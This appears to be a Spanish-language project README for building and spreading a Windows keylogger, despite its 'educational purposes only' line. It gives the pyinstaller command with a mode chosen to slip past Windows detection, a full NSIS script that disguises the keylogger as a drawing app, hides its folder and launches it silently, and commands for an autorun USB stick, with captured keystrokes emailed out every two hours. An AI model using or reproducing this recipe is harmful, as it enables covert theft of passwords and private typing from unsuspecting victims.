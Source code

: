 # Instalador de un keylogger en una víctima Windows

Este proyecto está desarrollado solo para fines educativos.

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la víctima puede teclear una combinación de teclas `<ctrl>+<alt>+q`
## Ejemplo: Crear el ejecutable

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Ejemplo: Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `draw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.
- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
copy draw.url.dist_sample dist\draw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
move dist\draw dist\.backup

```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir C:\Draw

Section

SetOutPath $INSTDIR

File LEEME.txt
File draw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "c:\Draw\.backup" HIDDEN

SetOutPath "c:\Draw\.backup"

Exec '"draw.exe"'

ExecShell "open" "C:\Draw"

SectionEnd

```
# Ejemplo: Crear USB con autplay

```
copy autorun.inf.sample d:\autorun.inf
copy draw.lnk.sample d:\draw.lnk
copy LEEME.txt.dist_sample d:\LEEME.txt
md d:\.backup
attrib +h d:\.backup /s /d
copy dist\.backup d:\.backup
```
## Posibles mejoras

* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.



